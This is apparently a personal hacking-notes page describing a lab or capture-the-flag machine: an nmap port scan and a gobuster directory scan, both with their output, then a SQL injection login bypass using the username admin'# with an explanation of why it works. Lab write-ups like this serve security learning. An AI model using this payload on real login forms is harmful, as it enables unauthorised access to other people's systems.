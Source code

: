 ```yaml
---
tags:
  - hacking
---
```

# Topics

> [!hint] See also [[SQL]]

- SQL

# Steps

- Ping target machine
- Do a port scan using [[nmap]]

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-08-31 23:32 CEST
Nmap scan report for <target_ip>
Host is up (0.025s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.56 seconds

```

- Connection to the server via a browser yields this website
![[IMG-2024-09-01-070110624.png]]

- Use [[gobuster]] to scan for any open websites

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<target_ip>/
[+] Threads      : 10
[+] Wordlist     : Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2024/09/01 00:02:17 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
=====================================================
2024/09/01 00:06:26 Finished
=====================================================
```

- Use a fake login name
	- `admin'#`
	- The closing quote closes the query. The hash comments out the rest of the query. This effectively bypasses the query for the password and allows any password to be used.
